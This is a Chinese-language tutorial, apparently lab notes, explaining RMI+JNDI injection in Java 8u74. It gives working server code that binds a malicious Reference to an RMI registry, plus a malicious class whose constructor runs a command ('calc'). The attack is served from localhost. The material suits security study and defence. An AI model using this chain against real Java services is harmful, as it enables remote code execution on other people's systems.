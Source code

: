 ## RMI+JNDI(这里使用的实验环境是8u74)

RMI+JNDI注入就是将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行

**javax.naming.Reference**构造方法为：Reference(String className, String factory, String factoryLocation)，

1. className - 远程加载时所使用的类名
2. classFactory - 加载的class中需要实例化类的名称
3. classFactoryLocation - 提供classes数据的地址可以是file/ftp/http等协议

因为Reference没有实现Remote接口也没有继承UnicastRemoteObject类，故不能作为远程对象bind到注册中心，所以需要使用ReferenceWrapper对Reference的实例进行一个封装。

服务端代码如下：

```java
//server.java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8081/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```

恶意代码（test.class），将其编译好放到可访问的http服务器（这里实验就放在了本地，用python3启一个web服务即可）

注意，这里不要弄成main方法了,应该构造一个显示的构造函数来放置恶意代码才会执行

并且这个恶意类不要加包名,而且不要和服务端还有客户端放在同一个目录,否则在启动客户端的时候会直接从当前目录下寻找到这个class文件,不启动web服务也能成功。

```java
//test.java
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```
